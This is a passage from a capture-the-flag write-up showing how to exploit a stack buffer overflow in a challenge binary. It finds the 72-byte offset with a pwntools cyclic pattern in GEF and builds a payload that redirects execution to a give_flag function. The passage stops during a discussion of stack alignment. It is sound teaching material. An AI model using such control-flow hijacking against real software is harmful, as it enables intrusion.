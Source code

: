 ```
     0x401330 <main+168>       call   0x4010e0 <printf@plt>
     0x401335 <main+173>       mov    eax, 0x0
     0x40133a <main+178>       leave  
 →   0x40133b <main+179>       ret    
[!] Cannot disassemble from $PC
─────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "chal", stopped 0x40133b in main (), reason: BREAKPOINT
───────────────────────────────────────────────────────────────────── trace ────
[#0] 0x40133b → main()
────────────────────────────────────────────────────────────────────────────────
gef➤  x/s $rsp
0x7fff7ca9a758:	"saaataaauaaavaaawaaaxaaayaaa"
gef➤  
```
Then to get the offset, I typically just open up a python shell as follows:
```
>>> from pwn import *
cyclic(100[*] Checking for new versions of pwntools
    To disable this functionality, set the contents of /home/knittingirl/.cache/.pwntools-cache-3.8/update to 'never' (old way).
    Or add the following lines to ~/.pwn.conf or ~/.config/pwn.conf (or /etc/pwn.conf system-wide):
        [update]
        interval=never
)[*] A newer version of pwntools is available on pypi (4.8.0 --> 4.10.0).
    Update with: $ pip install -U pwntools
>>> cyclic(100).find(b"saaataaauaaavaaawaaaxaaayaaa")
72
```
Finally, pwntools provides an automated way to get the address of the give_flag function (we could also get the address in Ghidra, GEF, or similar and copy-paste it in, but this is slightly faster!). Basically, I set up a padding of 72 a's, then append the address of give_flag as pwntools has automatically parsed it from the chal binary. I also run this give_flag address through the p64 pwntools function, which converts the integer into an 8-character bytestring that will convert to the address in little endian (the lowest value byte is earliest in the byte string, i.e. p64(0x0102030405060708) = b'\x08\x07\x06\x05\x04\x03\x02\x01')), which is used by most mainstream architectures, including x86/x86-64.
```
elf = ELF('chal')
padding = b'a' *72
payload = padding + p64(elf.symbols['give_flag'])
```
### Stack Alignment Issues:

Now, if I run the program with the new payload, it initially all looks good. I'm returning into the give_flag function.
```
     0x401330 <main+168>       call   0x4010e0 <printf@plt>
     0x401335 <main+173>       mov    eax, 0x0
     0x40133a <main+178>       leave  
 →   0x40133b <main+179>       ret    
   ↳    0x401216 <give_flag+0>    endbr64 
        0x40121a <give_flag+4>    push   rbp
        0x40121b <give_flag+5>    mov    rbp, rsp
        0x40121e <give_flag+8>    sub    rsp, 0x10
        0x401222 <give_flag+12>   lea    rax, [rip+0xddf]        # 0x402008
        0x401229 <give_flag+19>   mov    rsi, rax
─────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "chal", stopped 0x40133b in main (), reason: BREAKPOINT
───────────────────────────────────────────────────────────────────── trace ────
[#0] 0x40133b → main()
────────────────────────────────────────────────────────────────────────────────
gef➤
```
